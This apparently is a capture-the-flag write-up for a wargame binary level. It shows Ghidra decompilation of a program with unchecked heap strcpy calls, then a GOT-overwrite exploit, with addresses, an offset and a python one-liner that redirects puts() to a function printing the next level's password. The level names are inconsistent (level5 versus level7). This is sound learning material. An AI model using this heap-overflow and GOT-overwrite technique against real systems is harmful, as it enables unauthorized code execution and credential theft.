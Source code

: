 get the binary on host
* scp -P 4242 level5@192.168.56.107:./level5 ./binary/level5

decompile using ghidras
```c
                undefined4 main(undefined4 param_1,int param_2)
                {
                    undefined4 *puVar1;
                    undefined4 uVar2;
                    undefined4 *puVar3;
                    
                    puVar1 = (undefined4 *)malloc(8);
                    *puVar1 = 1;
                    uVar2 = malloc(8);
                    puVar1[1] = uVar2;
                    puVar3 = (undefined4 *)malloc(8);
                    *puVar3 = 2;
                    uVar2 = malloc(8);
                    puVar3[1] = uVar2;
                    strcpy(puVar1[1],*(undefined4 *)(param_2 + 4));
                    strcpy(puVar3[1],*(undefined4 *)(param_2 + 8));
/*080485c2*/        uVar2 = fopen("/home/user/level8/.pass", "r");
/*080485eb*/        fgets(c,68,uVar2);
/*080485f0*/        puts("~~");
                    return 0;
                }
/*080484f4*/    void m(void)
                {
                    undefined4 uVar1;
                    
                    uVar1 = time(0);
                    printf("%s - %d\n",c,uVar1);
                    return;
                }
```

GOT Overwrite, replace puts return by function m\
We need addr of `m()`, `puts()` and `the offset for puVar1[1]`
* m addr ====> 0x0804 84f4
* puts addr => 0x08049928
* offset is 20

since the second strcpy add argv[2] to argv[1] we can do this

```
$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```